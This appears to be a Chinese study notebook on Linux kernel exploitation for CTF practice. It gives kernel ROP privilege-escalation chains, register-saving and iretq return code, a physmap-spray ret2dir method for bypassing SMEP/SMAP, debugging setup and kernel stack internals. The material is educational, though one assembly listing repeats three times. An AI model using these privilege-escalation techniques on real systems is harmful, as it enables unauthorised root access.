```c
// 何谓乎王道? 曰：大一统也。
```

### 1. Kernel ROP

**内核态的 ROP 与用户态的 ROP 一般无二，只不过利用的 gadget 变成了内核中的 gadget，所需要构造执行的 ropchain 由**`system("/bin/sh")`**变为了** `commit_creds(prepare_kernel_cred(&init_task)) 或 commit_creds(&init_cred)`

当成功执行如上函数之后，当前线程的 cred 结构体便变为 init 进程的 cred 的拷贝，我们也就获得了 root 权限，此时在用户态起一个 shell 便能获得 root shell

- 需要注意的是 **旧版本内核上所用的提权方法 `commit_creds(prepare_kernel_cred(NULL))` 已经不再能被使用，在高版本的内核当中 `prepare_kernel_cred(NULL)` 将不再返回一个 root cred**，这也令 ROP chain 的构造变为更加困难 ：(

### 2.状态保存

通常情况下，我们的exploit需要进入到内核当中完成提权，而我们最终仍然需要**着陆回用户态**以获得一个root权限的shell，因此在我们的exploit进入内核态之前我们需要**手动模拟用户态进入内核态的准备工作**——**保存各寄存器的值到内核栈上**，以便于后续着陆回用户态

通常情况下使用如下函数保存各寄存器值到我们自己定义的变量中，以便于构造 rop 链：

> 算是一个通用的pwn板子
>
> 方便起见，使用了内联汇编，编译时需要指定参数：`-masm=intel`

```c
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    asm volatile (
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
    );
    puts("\033[34m\033[1m[*] Status has been saved.\033[0m");
}
```

可是爷一般不用，爷不装了，爷就是传说中的`Rust`传教士（奉天道，灭妖道）（元神启动！）

```rust
fn saveStatus() -> (u64, u64, u64, u64) {
    let mut user_cs: u64;
    let mut user_ss: u64;
    let mut user_sp: u64;
    let mut user_rflags: u64;
    unsafe {
        asm! {
            "mov {user_cs}, cs",
            "mov {user_ss}, ss",
            "mov {user_sp}, rsp",
            "pushf",
            "pop {user_rflags}",
            user_cs = out(reg) user_cs,
            user_ss = out(reg) user_ss,
            user_sp = out(reg) user_sp,
            user_rflags = out(reg) user_rflags,

        };
    }
    (user_cs, user_ss, user_sp, user_rflags)

}


```

虽说用`Rust`和`C`语言没啥区别，反而由于`Rust`的种种限制导致反而更麻烦了，同时`Rust`的静态编译后的文件大小都非常大，使用价值暂时还没看出来，不过就当练习了：(

现在感觉到的好处和未来能想到的好处也就是安全性和一次性通过率比`C`高点，还有就是`Rust`的库还是很丰富的，说不定会有奇效。

现在发现`Rust`确实整不了内核`Pwn`，毕竟`Rust`的本质要求是安全，而`Pwn`则是需要人为制造破坏条件，所以。。。。。。。


不过通过这几次折腾也算加深了对`Rust`的理解，不亏，不亏，不亏，

```shell
# 555555555555555555555555555555555555555555
```


### 3.返回用户态（汉贼不两立，王业不偏安

简要叙述内核态返回用户态的过程：

- `swapgs`指令恢复用户态GS寄存器
- `sysretq`或者`iretq`恢复到用户空间

那么我们只需要在内核中找到相应的gadget并执行`swapgs;iretq`就可以成功着陆回用户态

通常来说，我们应当构造如下`rop`链以返回用户态并获得一个`shell`：

```c
↓   swapgs
    iretq
    user_shell_addr
    user_cs
    user_eflags //64bit user_rflags
    user_sp
    user_ss
```

### 4.qemu 启动脚本分析
以后我们看见一个`qemu`启动脚本咱们就分析一个，开始逐步理解对于虚拟机的理解。

```shell
qemu-system-x86_64 \
-m 128M \
-kernel ./bzImage \
-initrd  ./core.cpio \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet kaslr" \
-s  \
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
-nographic  \
```

现在咱们需要理解的有：

```shell
-m 内存分配大小

-initrd 初始化挂载文件

-kernel 内核镜像

oops=panic panic=1 这是我见过最抽象的，当panic = 1时， 如果系统发生panic，就重启，panic= 0， 就不充启，后期在没完没了的调试中还是把它关了好。

kaslr 内核地址随机化
```

再看一个qemu启动shell


```shell
#!/bin/sh
qemu-system-x86_64 \
	-m 256M \
	-cpu kvm64,+smep,+smap \      # 开启 +smep,+smap 禁止内核访问并使用用户空间代码。
	-smp cores=2,threads=2 \	  # kvm64 使用kvm64 CPU版本，开启两个核，每个核开启两个
								  # 线程，形成类似于四核效果。kvm64 大概就是X64架构CPU
								  # 至少CTF kernel pwn基本上用的都是kvm64.
	-kernel bzImage \
	-initrd ./core.cpio \
	-nographic \
	-monitor /dev/null \
	-snapshot \					# 开启快照功能，类似于网吧的功能，随便霍霍，开机后还那样
	-append "console=ttyS0 nokaslr pti=on quiet oops=panic panic=1" \
	-s \						# 这个要有，开启1234端口，以便gdb调试虚拟机。
	-no-reboot
```

这个启动shell的闪亮点在于 

```shell
-append "console=ttyS0 nokaslr pti=on quiet oops=panic panic=1" \
-s \
-no-reboot
```

虽然设置了`oops=panic panic=1`但是又补了一句`-no-reboot`当内核重启时终止程序，这使得发生内核崩溃时一方面我们可以看到内核的报错信息而不会被重启掩盖掉，同时终止程序立刻释放虚拟机资源，使得虚拟机在内核崩溃后又不会巨卡无比。


### 5.core.cpio文件的解包和打包

```shell
mkdir core
cd core
cpio -idv < ../core.cpio
```

但是有的`core.cpio`文件拿过来之后会发现是被压缩过的，所以还得先解压缩再进行解包。

所以要先确认一下文件格式：

```shell
file core.cpio
```

修改完解包后的`cpio`文件后我们还要去打包一下，在目标文件夹内：

```shell
find . | cpio -o -H newc > ../core.cpio


# 我也不知道为啥有时候上面的不好使，打包后cpio文件的会引发panic，后来发现这个行。
#!/bin/bash
cd core
find . -print0 |
	cpio --null -ov --format=newc |
	gzip -9 >core.cpio
mv ./core.cpio ../
```


先把文件的后缀名做一下编辑，然后再解压缩。

```shell
mv core.cpio core.cpio.gz

gunzip -c core.cpio.gz > core_uncompressed.cpio
```

### 6. Rust静态编译

```shell
rustup target add x86_64-unknown-linux-musl
# 安装静态编译环境
```

Rust 使用 `musl`作为静态编译的库，亲测效果非常OK。

```shell
cargo build --target x86_64-unknown-linux-musl --release

# 在 target/x86_64-unknown-linux-musl/release/ 目录下的静态链接的二进制文件。
```

元神启动（ 

```shell
# 补一下gcc静态编译方法。
gcc ./jack.c -o jack -static -masm=intel
```


### 7.查找内核ROP方法

第一个方法是使用`pwntools`速度还很快，定向性还很好。

```python
from pwn import *

e = ELF("./vmlinux")

context.arch = 'amd64'

hex(e.search(asm('iretq')).__next__())
```

当然最正道的肯定还是用专门的工具：

```shell
ropper --file ./vmlinux --nocolor > vmlinux_gadgets
```

但是这是把所有的ROP都找出来，应该也可以找特定的，但我还不知道，到时候再说。

```C
//如果出于某些原因需要重新提取一次，ropper 会从 cache 中尝试重新提取，就我的经历而言，从 cache 中提取 ropper 会卡死，所以如果它卡死了，可以用 `ropper --clear-cache` 来清空 cache。
```

### 8.获得内核函数地址
修改init文件，获得root权限，

```shell
setsid /bin/cttyhack setuidgid 0 /bin/sh

# 在init文件中如此设置，开机后就是root用户
```

调试的时候我们可以先把kaslr关掉，获取没有偏移的函数地址，这样就可以查看内核空间的地址力！

```shell
cat /proc/kallsyms
```


### 9. GDB调试步骤与方法

首先修改`init`文件，添加以下命令，以便可以获取`core.ko`的代码段的基址。这样内核启动时就是`root`权限，当然这是为了调试方便，真正执行`exp`可以去掉这条命令。

```shell
setsid /bin/cttyhack setuidgid 0 /bin/sh
```

然后重新打包文件系统，运行`start.sh`起内核，在`qemu`中查找`core.ko`的`.text`段的地址：

```shell
cat /sys/module/core/sections/.text
# 0xffffffffc0205000
```

在另外一个`terminal`中启动`gdb`：

```shell
gdb ./vmlinux -q
```

然后添加`core.ko`的符号表，加载了符号表之后就可以直接对函数名下断点了。

```shell
gdb-peda$ add-symbol-file ./core.ko 0xffffffffc0205000
# add symbol table from file "./core.ko" at
#  .text_addr = 0xffffffffc0205000
#Reading symbols from ./core.ko...(no debugging symbols found)...done.
```

然后运行以下命令连接`qemu`进行调试：

```shell
target remote localhost:1234

# qemu 的默认端口是 1234
```

### 10. 排兵布阵
```shell
# 武王问太公曰：“兵道如何？
# 太公曰：“凡Pwn之道莫过乎一，一者能独往独来，黄帝曰：‘齐布阵，通四海，无往不利，使将专题于一心，无损于往返烦劳shell行中’。”
```

以后我们就像这个样子去布置战阵。



### 11. Rust 与 C/C++ 交互

Rust与`C/C++`交互可以采用`Rust`的`cc``crate`来进行代码交互。

首先要这么做：

```shell
#!/bin/bash
cargo new bob
cd bob
touch build.rs   # 这个名字是固定的，同时它的文件层级就是和 src 文件夹平级。
```

然后在`cargo.toml`文件中加入一下内容：

```shell
[build-dependencies]
cc = { version = "1.0.79", features = ["parallel"] }
```

然后在`build.rs`文件中写入这样的代码：

```rust
extern crate cc;
fn main() {
    println!("cargo:rerun-if-changed=./src/assembly.c");
    // 看着好像是个打印函数而已，实际上是特殊规范，来表示编译选项
    // 这句表明当./src/assembly.c 文件发生变化时进行编译
    println!("cargo:rustc-link-lib=static=assembly");
    // 告诉cargo 进行cargo build 时对于外部的C库代码去哪里找，叫什么名字，是什么类型的
    // 事实上，对于这个静态编译的.sow文件并不是叫做assembly这个名字，实际上应该是叫做：
    // 类似于 libassembly.so 这样的名字。
    let mut builder: cc::Build = cc::Build::new();
    if cfg!(target_env = "musl") {
        builder.compiler("musl-gcc");
    }
    // 使用 musl 编译代码
    builder
        .file("./src/assembly.c")
    // c代码位置
        .flag("-fPIC")
    // 生成地址无关代码
        .flag("-masm=intel")
    // 汇编语言使用intel语法
        .shared_flag(false)
    // 我也不知道是啥，反正都这么写的
        .compile("assembly");
    // 编译名称，生成libassembly.so文件
}
```

### 12. Kernel ROP - ret2dir
`ret2dir` 是哥伦比亚大学网络安全实验室在 2014 年提出的一种辅助攻击手法，主要用来绕过 `smep`、`smap`、`pxn` 等**用户空间与内核空间隔离的防护手段**。
x86-64 下的 `Linux kernel` 的内存布局，存在着这样的一块区域叫做 `direct mapping area`，即内核的 **线性映射区**，线性地直接映射了整个物理内存空间.
```shell
# ffff888000000000 | -119.5  TB | ffffc87fffffffff |   64 TB | direct mapping of all physical memory (page_offset_base)
```

这块区域的存在意味着：对于一个被用户进程使用的物理页框，同时存在着一个用户空间地址与内核空间地址到该物理页框的映射，即我们利用这两个地址进行内存访问时访问的是同一个物理页框。

当开启了 `SMEP`、`SMAP`、`PXN` 等防护时，内核空间到用户空间的直接访问被禁止，我们无法直接使用类似`ret2usr` 这样的攻击方式，但利用内核线性映射区对整个物理地址空间的映射，我们可以利用一个内核空间上的地址访问到用户空间的数据，从而绕过 `SMEP`、`SMAP`、`PXN` 等传统的隔绝用户空间与内核空间的防护手段。

下图便是原论文中对 `ret2dir` 这种攻击的示例，我们在用户空间中布置的 `gadget` 可以通过 `direct mapping area` 上的地址在内核空间中访问到。


> 但需要注意的是在新版的内核当中 `direct mapping area` 已经不再具有可执行权限，因此我们很难再在用户空间直接布置 `shellcode` 进行利用，但我们仍能通过**在用户空间布置 `ROP` 链**的方式完成利用。
>
> 基本上布置 `shellcode` 的方法已经很难直接完成利用了，毕竟这是一篇14年的古老论文，稍微新一点的内核的 `direct mapping area` 都不再具有可执行权限…


比较朴素的一种使用 `ret2dir` 进行攻击的手法便是：

- 利用 `mmap` 在用户空间大量喷射内存
- 利用漏洞泄露出内核的“堆”上地址（通过 `kmalloc` 获取到的地址），**这个地址直接来自于线性映射区**
- 利用泄露出的内核线性映射区的地址**进行内存搜索**，从而找到我们在用户空间喷射的内存

**此时我们就获得了一个映射到用户空间的内核空间地址，我们通过这个内核空间地址便能直接访问到用户空间的数据，从而避开了传统的隔绝用户空间与内核空间的防护手段**

需要注意的是我们往往没有内存搜索的机会，因此需要**使用 `mmap` 喷射大量的物理内存写入同样的 `payload`**，之后再随机挑选一个线性映射区上的地址进行利用，这样我们就**有很大的概率命中到我们布置的 `payload` 上**，这种攻击手法也称为 `physmap spray`。

当我们喷射的内存页数量达到一定数量级时**我们总能准确地在 `direct mapping area` 靠中后部的区域命中我们的恶意数据。**

由于 `buddy system` 以页为单位进行内存分配，所以我们也以页为单位进行 `physmap spray`，以求能消耗更多的物理内存，提高命中率。

```rust
// 就我个人的体会而言就是，内核通过 direct mapping area 来映射所有的物理内存，方便管理，伙伴系统也是依靠这个机制来管理物理内存，非常直观的感受就是，用户区在自己的地方修改内存，direct mapping area 所对应的内存区域的数据也会发生改变，内核修改这个地方的数据，用户区对应的数据也会发生改变。
```


### 13. pt_regs结构体

```c
struct pt_regs {
/*
 * C ABI says these regs are callee-preserved. They aren't saved on kernel entry
 * unless syscall needs a complete, fully filled "struct pt_regs".
 */
    unsigned long r15;
    unsigned long r14;
    unsigned long r13;
    unsigned long r12;
    unsigned long rbp;
    unsigned long rbx;
/* These regs are callee-clobbered. Always saved on kernel entry. */
    unsigned long r11;
    unsigned long r10;
    unsigned long r9;
    unsigned long r8;
    unsigned long rax;
    unsigned long rcx;
    unsigned long rdx;
    unsigned long rsi;
    unsigned long rdi;
    // 实际上我们模拟syscall，只需要做到这里就可以了
    // 在执行syscall，后程序会由用户态陷入内核态，进入内核栈，然后执行一系列的push 操作将寄存器数据压入栈中，当syscall执行结束后，再将内核栈中数据pop出来，恢复上下文环境。
    /*     unsafe {
        asm!(
            "mov r15,   0xbeefdead;",
            "mov r14,   0x11111111;",
            "mov r13,   0x22222222;",
            "mov r12,   0x33333333;",
            "mov rbp,   0x44444444;",
            "mov rbx,   0x55555555;",
            "mov r11,   0x66666666;",
            "mov r10,   0x77777777;",
            "mov r9,    {pop_rsp_ret};",
            "mov r8,    {try_hit};",
            "mov rax,   0x10;",
            "mov rcx,   0xBBBBBBBB;",
            "mov rdx,   {try_hit};",
            "mov rsi,   0x1bf52;",
            "mov rdi,   {dev_fd}",
            "syscall",
             try_hit = const try_hit,
             dev_fd = const dev_fd,
             pop_rsp_ret = const _pop_rsp_ret,
        )
    };
    */
/*
 * On syscall entry, this is syscall#. On CPU exception, this is error code.
 * On hw interrupt, it's IRQ number:
 */
    unsigned long orig_rax;
/* Return frame for iretq */
    unsigned long rip;
    unsigned long cs;
    unsigned long eflags;
    unsigned long rsp;
    unsigned long ss;
/* top of stack page */
};
```


在详细介绍这个结构体之前，我们还要详细介绍一下内核栈的相关知识。


>在每一个进程的生命周期中，经常会通过系统调用（SYSCALL）陷入内核。在执行系统调用陷入内核之后，这些内核代码所使用的栈并不是原先用户空间中的栈，而是一个内核空间的栈，这个称作进程的“内核栈”。

每个`task`的栈分成用户栈和内核栈两部分，**进程内核栈**在`kernel`中的定义是：

```c
union thread_union {
	struct thread_info thread_info;
	unsigned long stack[THREAD_SIZE/sizeof(long)];
};
```

每个`task`的内核栈大小`THREAD_SIZE` ：

```c
x86：
	#define THREAD_SIZE_ORDER	1
	#define THREAD_SIZE		(PAGE_SIZE << THREAD_SIZE_ORDER)
	因此是8K
x86_64：
	#define THREAD_SIZE_ORDER	(2 + KASAN_STACK_ORDER)
	#define THREAD_SIZE  (PAGE_SIZE << THREAD_SIZE_ORDER)
	PAGE_SIZE默认4K，KASAN_STACK_ORDER没有定义时为0，因此是16K
	
ARM：
	8k
ARM64：
        16K
```

在32位系统是8`KB`，64位系统里是16`KB`。


实际上在`linux kernel`中，`task_struct`、`thread_info`都用来保存进程相关信息，即进程`PCB`信息。然而不同的体系结构里，进程需要存储的信息不尽相同，`linux`使用`task_struct`存储通用的信息，**将体系结构相关的部分存储在thread_info中**。这也是为什么`struct` `task_struct`在`include/linux/sched.h`中定义，而`thread_info` 在`arch/ `下体系结构相关头文件里。


#### thread_info 、内核栈、task_struct 关联

三者都是密切相关的，服务于进程的关键数据结构，在内核中定义截取如下：

```c
struct task_struct {
#ifdef CONFIG_THREAD_INFO_IN_TASK
	struct thread_info	thread_info;
#endif
… …
	void			*stack;
… …
}

/* * */
union thread_union {
#ifndef CONFIG_ARCH_TASK_STRUCT_ON_STACK
	struct task_struct task;
#endif
#ifndef CONFIG_THREAD_INFO_IN_TASK
	struct thread_info thread_info;
#endif
	unsigned long stack[THREAD_SIZE/sizeof(long)];
};

/* x86 */
struct thread_info {
	unsigned long		flags;		/* low level flags */
	u32			status;		/* thread synchronous flags */
};

/* ARM */
struct thread_info {
	unsigned long		flags;		/* low level flags */
	int			preempt_count;	/* 0 => preemptable, <0 => bug */
	mm_segment_t		addr_limit;	/* address limit */
	struct task_struct	*task;		/* main task structure */
… …
};
```

根据宏`CONFIG_THREAD_INFO_IN_TASK`的存在与否，三者在内核中存在两种不同关联：

（1）**thread_info 结构在进程内核栈中**

即当`CONFIG_THREAD_INFO_IN_TASK = N`时，`thread_info`和栈`stack` 在一个联合体`thread_union`内，共享一块内存，即`thread_info`在栈所在物理页框上。

进程描述符`task_struct` 中的成员`void *stack`指向内核栈。不同的是，在`ARM`中，`struct thread_info` 结构体有成员`struct task_struct *task`指向进程描述符`task_struct`，而`x86`文件中没有。实际上早期内核`3.X`版本中，`x86`下的 `thread_info` 里也有`task_struct`的指针，后续版本被删除，具体原因到后面介绍`current`宏时再详细介绍。

至此三者关系可以描述如下（`x86`中没有`info.task`指针这条线）：


因为`thread_info` 结构和`stack`是 联合体，`thread_info`的地址就是栈所在页框的基地址。因此当我们获得当前进程内核栈的`sp`寄存器存储的地址时，根据`THREAD_SIZE`对齐就可以获取`thread_info`结构的基地址（后面介绍`current`宏会详细分析）。

（2）**thread_info 结构在进程描述符中**（`task_struct`）

即当`CONFIG_THREAD_INFO_IN_TASK = Y`时，`thread_info`就是`struct task_struct`的第一个成员。`union thread_union` 中只有栈，即栈和`thread_info` 结构不再共享一块内存。`task.stack`依旧存在。三者关系可描述为：


（3）有一点需要注意，进程描述符中的 `task_struct.stack`指针，是指向**栈区域内存基地址**，即`thread_union.stack` 数组基地址，既不是栈顶也不是栈底，栈顶存在寄存器`rsp`中，栈底是`task_struct.stack+THREAD_SIZE`，代码中引用时需要注意。

#### x86下的current 宏

在早期内核代码中（2.x 3.x），`thread_info`结构中还有指向`struct task_sturct`结构的指针成员，在`x86`上也可以采用和32位`ARM`类似的获取方式（`CONFIG_THREAD_INFO_IN_TASK = N`时）。然而在`x86`体系结构中，`linux kernel`一直采用的是另一种方式：使用了`current_task`这个每`CPU`变量，来存储当前正在使用的`cpu`的进程描述符`struct task_struct`。源码如下：

```c
//arch/x86/include/asm/current.h
	DECLARE_PER_CPU(struct task_struct *, current_task);
	
	static __always_inline struct task_struct *get_current(void)
	{
		return this_cpu_read_stable(current_task);
	}
        #define current get_current()
```

`x86`上通用寄存器有限，无法像ARM中那样单独拿出寄存器来存储进程描述符`task_sturct`结构的地址。由于采用了每`cpu`变量`current_task`来保存当前运行进程的`task_struct`，所以在进程切换时，就需要更新该变量。在`arch/x86/kernel/process_64.c`文件中的`__switch_to`函数中有如下代码来更新此全局变量：

```c
this_cpu_write(current_task, next_p);
```

#### SYSCALL过程调用规范

篇幅有限，本文只选取`x86_64`架构来分析`SYSCALL`过程调用和内核栈的结构。内核栈和用户空间的**栈帧**结构是一样的。

不过由于`syscall`属于特殊的过程调用，涉及到栈切换，和用户空间过程调用不同之处有：

1）进程内核栈除了需要保存内核空间过程调用外，还需要保存用户空间栈的数据和返回地址，以便 在返回用户空间继续执行。

2）过程调用中寄存器调用约定不同。内核`SYSCALL` 过程调用约定遵循`C ABI` ，规定如下：

  ```c
   Registers on entry:
   
    rax  system call number
    rcx  return address
    r11  saved rflags (note: r11 is callee-clobbered register in C ABI)
    rdi   arg0
    rsi    arg1
    rdx  arg2
    r10  arg3 (needs to be moved to rcx to conform to C ABI)
    r8    arg4
    r9    arg5
    (note: r12-r15, rbp, rbx are callee-preserved in C ABI)
  ```

   

主要区别在`SYSCALL`时，使用`rcx`寄存器保存 `rip`的值（即返回地址），第四个参数就用`r10 `来保存！内核中参数使用例子：


#### x86_64进程栈切换

前面花了大篇幅介绍`thread_info`和`stack`关系、过程调用规范，是为了能更加清晰认识本文的主角：**内核栈**。进程通过`syscall`陷入内核时进行栈切换，我们通过分析整个栈切换流程来逐步描绘内核栈结构。

因为进程内核栈和体系结构密切相关，本文只选取**x86_64架构**来分析内核栈的结构。下面先来介绍一个重要的数据结构：`struct pt_regs` 。`linux kernel` 使用它来格式化内核栈：

```c
//arch/x86/include/asm/ptrace.h
struct pt_regs {
/*
 * C ABI says these regs are callee-preserved. They aren't saved on kernel entry
 * unless syscall needs a complete, fully filled "struct pt_regs".
 */
	unsigned long r15;
	unsigned long r14;
	unsigned long r13;
	unsigned long r12;
	unsigned long rbp;
	unsigned long rbx;
/* These regs are callee-clobbered. Always saved on kernel entry. */
	unsigned long r11;
	unsigned long r10;
	unsigned long r9;
	unsigned long r8;
	unsigned long ax;
	unsigned long cx;
	unsigned long dx;
	unsigned long si;
	unsigned long di;
	unsigned long orig_ax;
/* Return frame for iretq */
	unsigned long ip;
	unsigned long cs;
	unsigned long flags;
	unsigned long sp;
	unsigned long ss;
/* top of stack page */
};
```

内核栈按照这个顺序缓存各个寄存器存储的用户空间数据/地址，下面会结合源码详细分析。

内核`SYSCALL` 入口代码在`entry_64.S`中，了解进程栈结构，需要看在陷入内核后，`CPU`都做了哪些堆栈操作。下面看下入口处部分汇编源码：

```c
//arch/x86/entry/entry_64.S
ENTRY(entry_SYSCALL_64)
	UNWIND_HINT_EMPTY
	/* Interrupts are off on entry. */
	swapgs
	// 将用户栈偏移保存到 per-cpu 变量 rsp_scratch 中
	movq	%rsp, PER_CPU_VAR(rsp_scratch)
	// 切换到进程内核栈
	movq	PER_CPU_VAR(cpu_current_top_of_stack), %rsp

	/* 在栈中倒序构建 struct pt_regs */
	pushq	$__USER_DS			/* pt_regs->ss */
	pushq	PER_CPU_VAR(rsp_scratch)	/* pt_regs->sp */
	pushq	%r11				/* pt_regs->flags */
	pushq	$__USER_CS			/* pt_regs->cs */
	pushq	%rcx				/* pt_regs->ip */
GLOBAL(entry_SYSCALL_64_after_hwframe)
	//rax 保存着系统调用号
	pushq	%rax				/* pt_regs->orig_ax */

	PUSH_AND_CLEAR_REGS rax=$-ENOSYS

	TRACE_IRQS_OFF

	/* 保存参数到寄存器，调用do_syscall_64函数 */
	movq	%rax, %rdi
	movq	%rsp, %rsi
call	do_syscall_64		/* returns with IRQs disabled */
```

```c
//arch/x86/entry/entry_64.S
ENTRY(entry_SYSCALL_64)
	UNWIND_HINT_EMPTY
	/* Interrupts are off on entry. */
	swapgs
	// 将用户栈偏移保存到 per-cpu 变量 rsp_scratch 中
	movq	%rsp, PER_CPU_VAR(rsp_scratch)
	// 切换到进程内核栈
	movq	PER_CPU_VAR(cpu_current_top_of_stack), %rsp

	/* 在栈中倒序构建 struct pt_regs */
	pushq	$__USER_DS			/* pt_regs->ss */
	pushq	PER_CPU_VAR(rsp_scratch)	/* pt_regs->sp */
	pushq	%r11				/* pt_regs->flags */
	pushq	$__USER_CS			/* pt_regs->cs */
	pushq	%rcx				/* pt_regs->ip */
GLOBAL(entry_SYSCALL_64_after_hwframe)
	//rax 保存着系统调用号
	pushq	%rax				/* pt_regs->orig_ax */

	PUSH_AND_CLEAR_REGS rax=$-ENOSYS

	TRACE_IRQS_OFF

	/* 保存参数到寄存器，调用do_syscall_64函数 */
	movq	%rax, %rdi
	movq	%rsp, %rsi
call	do_syscall_64		/* returns with IRQs disabled */
```

```c
//arch/x86/entry/entry_64.S
ENTRY(entry_SYSCALL_64)
	UNWIND_HINT_EMPTY
	/* Interrupts are off on entry. */
	swapgs
	// 将用户栈偏移保存到 per-cpu 变量 rsp_scratch 中
	movq	%rsp, PER_CPU_VAR(rsp_scratch)
	// 切换到进程内核栈
	movq	PER_CPU_VAR(cpu_current_top_of_stack), %rsp

	/* 在栈中倒序构建 struct pt_regs */
	pushq	$__USER_DS			/* pt_regs->ss */
	pushq	PER_CPU_VAR(rsp_scratch)	/* pt_regs->sp */
	pushq	%r11				/* pt_regs->flags */
	pushq	$__USER_CS			/* pt_regs->cs */
	pushq	%rcx				/* pt_regs->ip */
GLOBAL(entry_SYSCALL_64_after_hwframe)
	//rax 保存着系统调用号
	pushq	%rax				/* pt_regs->orig_ax */

	PUSH_AND_CLEAR_REGS rax=$-ENOSYS

	TRACE_IRQS_OFF

	/* 保存参数到寄存器，调用do_syscall_64函数 */
	movq	%rax, %rdi
	movq	%rsp, %rsi
call	do_syscall_64		/* returns with IRQs disabled */
```

（1）指令`movq PER_CPU_VAR(cpu_current_top_of_stack), %rsp`使栈顶寄存器载入进程内核栈地址，实现了**用户栈到进程内核栈的切换**；

（2）后续依次将用户空间寄存器压栈，和上面的数据结构`struct pt_regs` 成员一一对应（顺序固定且是倒序）。有三点需要注意：

> 1）%rcx寄存器保存在了pt_regs->ip 位置，是因为根据 Intel SDM，syscall 会将当前 rip 存到 rcx ，然后将 IA32_LSTAR 加载到 rip 。因此用户空间下一条指令就是从%rcx寄存器中获取；
2）系统调用号（sys_call_table索引号）保存在%rax中；
3）PUSH_AND_CLEAR_REGS 宏包含剩余寄存器入栈指令，展开如下：

```c
//arch/x86/entry/calling.h
.macro PUSH_AND_CLEAR_REGS rdx=%rdx rax=%rax save_ret=0
        .if \save_ret
        pushq   %rsi            /* pt_regs->si */
        movq    8(%rsp), %rsi   /* temporarily store the return address in %rsi */
        movq    %rdi, 8(%rsp)   /* pt_regs->di (overwriting original return address) */
        .else
        pushq   %rdi            /* pt_regs->di */
        pushq   %rsi            /* pt_regs->si */
        .endif
        pushq   \rdx            /* pt_regs->dx */
        xorl    %edx, %edx      /* nospec   dx */
        pushq   %rcx            /* pt_regs->cx */
        xorl    %ecx, %ecx      /* nospec   cx */
        pushq   \rax            /* pt_regs->ax */
      pushq   %r8             /* pt_regs->r8 */
        xorl    %r8d, %r8d      /* nospec   r8 */
        pushq   %r9             /* pt_regs->r9 */
        xorl    %r9d, %r9d      /* nospec   r9 */
        pushq   %r10            /* pt_regs->r10 */
        xorl    %r10d, %r10d    /* nospec   r10 */
        pushq   %r11            /* pt_regs->r11 */
        xorl    %r11d, %r11d    /* nospec   r11*/
//后面的寄存器是caller-saved，这里可能是空的
        pushq   %rbx            /* pt_regs->rbx */
        xorl    %ebx, %ebx      /* nospec   rbx*/
        pushq   %rbp            /* pt_regs->rbp */
        xorl    %ebp, %ebp      /* nospec   rbp*/
        pushq   %r12            /* pt_regs->r12 */
        xorl    %r12d, %r12d    /* nospec   r12*/
        pushq   %r13            /* pt_regs->r13 */
        xorl    %r13d, %r13d    /* nospec   r13*/
        pushq   %r14            /* pt_regs->r14 */
        xorl    %r14d, %r14d    /* nospec   r14*/
        pushq   %r15            /* pt_regs->r15 */
        xorl    %r15d, %r15d    /* nospec   r15*/
```

> 在x86_64中，在内核栈中，rbx rbp r12 r13 r14 r15不是必须保存的项（为了访问不越界相应空间必须保留），根据需要保存，linux后续版本采取都保存方式；
>

(3）和`IA32`相比，`x86_64`内核栈起始位置没有预留`8KB`空间（`STACK_PADDIN`），是因为在`x86_64`中，`SYCALL`过程内核栈**所有寄存器都由软件压栈保存**，不存在硬件可能没有压栈，防止越界预留位置的情况。在这里贴上内核中关于`STACK_PADDING`定义：

```c
/* x86_64 has a fixed-length stack frame */
#ifdef CONFIG_X86_32
# ifdef CONFIG_VM86
#  define TOP_OF_KERNEL_STACK_PADDING 16
# else
#  define TOP_OF_KERNEL_STACK_PADDING 8
# endif
#else
# define TOP_OF_KERNEL_STACK_PADDING 0
#endif
```


整个图就是`linux SYSCALL`，`x86_64`栈切换的完整过程。图中表格第一列是数据结构`struct pt_regs` 逆序成员，第二列是栈切换后，依次压栈的寄存器，第三列是寄存器中存放的数据类型。


### 14. 特殊汇编学习

#### call    __x86_indirect_thunk_rbx ; PIC mode

```shell
# 这句代码的可以直接理解为 call rbx;
# 但是在执行在执行中并不是直接通过 call rbx; 实现的，
# 而是会执行一小段过渡代码，然后跳转到rbx所指向的内容，
# 有点类似于got表的的加载过程。
```

### 15. CR3 与 KPTI

**每个进程都有一套指向进程自身的页表，由`CR3`寄存器指向。**

早期的`Linux`内核，每当执行用户空间代码（应用程序）时，`Linux`会在其分页表中保留整个内核内存的映射(内核地址空间和用户地址空间共用一个页全局目录表`PGD`)，并保护其访问。这样做的优点是当应用程序向内核发送系统调用或收到中断时，内核页表始终存在，可以避免绝大多数上下文交换相关的开销（`TLB`刷新、页表交换等）。

尽管阻止了对这些内核映射的访问，但在之后的一段时间，英特尔`x86`处理器还是被爆出了可用于页表泄露的旁路攻击，可能绕过`KASLR`.

```rust
//正所谓时势造英雄，英雄亦适时也。 ——《三国演义》
```

`KPTI`(Kernel PageTable Isolation)全称内核页表隔离,它通过完全分离用户空间与内核空间页表来解决页表泄露。

KPTI中**每个进程有两套页表**——**内核态页表与用户态页表(两个地址空间)**。内核态页表只能在内核态下访问，可以创建到内核和用户的映射（不过用户空间受`SMAP`和`SMEP`保护）。用户态页表只包含用户空间。不过由于涉及到上下文切换，所以在用户态页表中必须包含部分内核地址，用来建立到中断入口和出口的映射。

**当中断在用户态发生时，就涉及到切换`CR3`寄存器，从用户态地址空间切换到内核态的地址空间。**中断上半部的要求是尽可能的快，从而切换`CR3`这个操作也要求尽可能的快。为了达到这个目的，`KPTI`中将内核空间的`PGD`和用户空间的`PGD`连续的放置在一个`8KB`的内存空间中（内核态在低位，用户态在高位）。这段空间必须是`8K`对齐的，这样将`CR3`的切换操作转换为将`CR3`值的第13位(由低到高)的置位或清零操作，提高了`CR3`切换的速度。


####  Bypass KPTI

```shell
# 公无渡河，公竟渡河，渡河而死，其奈公何。 ——《乐府诗集》
```

